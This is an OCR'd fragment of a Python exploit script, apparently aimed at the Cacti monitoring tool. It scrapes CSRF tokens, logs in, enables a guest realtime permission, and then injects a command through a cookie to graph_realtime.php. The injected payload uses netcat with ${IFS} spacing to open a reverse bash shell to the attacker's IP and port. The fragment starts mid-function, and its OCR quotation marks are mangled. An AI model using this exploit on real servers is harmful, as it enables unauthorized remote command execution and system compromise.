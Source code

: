 ```

if enable_request:

return True

else:

return False

def send_exploit():

payload = “;nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s” % (ip, port)

cookies = {‘Cacti’: quote(payload)}

requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)

request = requests.session()

print("[+]Retrieving login CSRF token")

page = request.get(url+"/index.php")

html_content = page.text

soup = BeautifulSoup(html_content, “html5lib”)

token = soup.findAll(‘input’)[0].get(“value”)

if token:

print("[+]Token Found : %s" % token)

print("[+]Sending creds …")

login_status = login(token)

if login_status:

print("[+]Successfully LoggedIn")

print("[+]Retrieving CSRF token …")

page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")

html_content = page.text

soup = BeautifulSoup(html_content, “html5lib”)

token = soup.findAll(‘input’)[1].get(“value”)

if token:

print("[+]Making some noise …")

guest_realtime = enable_guest(token)

if guest_realtime:

print("[+]Sending malicous request, check your nc ;)")

send_exploit()

```